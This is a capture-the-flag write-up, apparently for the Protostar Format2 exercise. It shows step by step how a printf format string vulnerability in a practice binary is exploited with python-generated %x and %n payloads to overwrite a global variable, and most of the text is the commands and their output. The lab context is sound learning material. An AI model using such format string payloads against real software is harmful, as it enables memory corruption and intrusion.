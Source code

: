 <h2>Goal</h2>
The goal of this challenge, and the process to determine the solution is almost identical as the last challenege, Format1.  The difference in this challenge change the value of Target variable to a specific value.

```c
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
```

<h2>Process</h2>

First stepis to find the address for the `target` variable. 
```bash
objdump -t format2 | grep target

target = 080496e4
```

Next is to find where we can overwrite memory.

```bash
python -c 'print "AAAA"+"%x "*100' | ./format2

AAAA200 b7fd8420 bffff614 41414141 25207825 78252078...... repeating and some garbage.
```
This time we had control much sooner. This value is small so it can be easily counted, we get control at the fourth address.

```bash
python -c 'print "AAAA"+"%x "*4' | ./format2 

AAAA200 b7fd8420 bffff614 41414141
````

Now lets fit in the address of target.

```bash
 python -c 'print "\xe4\x96\x04\x08"+"%x"*4' | ./format2
 
��200b7fd8420bffff61480496e4
target is 0 :(
```
Ok, we've got everything setup. Now let's remove one of the `"%x "` and replace it with the required `"%n "`

```bash
python -c 'print "\xe4\x96\x04\x08"+"%x"*3+"%n"' | ./format2

��200b7fd8420bffff614
target is 23 :(
```

While the value of target is not 64, we have changed it to 23.  Now to increase this value we can add some padding to the format portion like so: `"%4x "` the 4 can be changed as needed to increase or decrease the outcome. For me the value of 4 incremented `target` by one to 24. So I then added ten:

```bash
python -c 'print "\xe4\x96\x04\x08"+"%10x"*3+"%n"' | ./format2

��       200  b7fd8420  bffff614
target is 34 :(
```



<h2>Solution</h2>
Next I just guessed and added another 10, making the padding 20.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%20x"*3+"%n"' | ./format2

��                 200            b7fd8420            bffff614
you have modified the target :)
```

After examining the output and my padding I understood why this much padding work, its just some quick easy math.  Take 20 and 3 from `"%20x"*3` and we get 60 extra bytes of padding. Then 4 bytes for the address.

Another way to do this is.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%x%x%x%n"' | ./format2

��200b7fd8420bffff614
target is 23 :(
```

From here we can replace the first `%x` with the padding `%4x`.  Some trial and error will be needed to get the exact padding again.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%44x%x%x%n"' | ./format2

��                                         200b7fd8420bffff614
you have modified the target :)

```


Another way is
```bash
python -c 'print "\xe4\x96\x04\x08"+"%60c%4$n"' | ./format2
��                                                           
you have modified the target :)
```






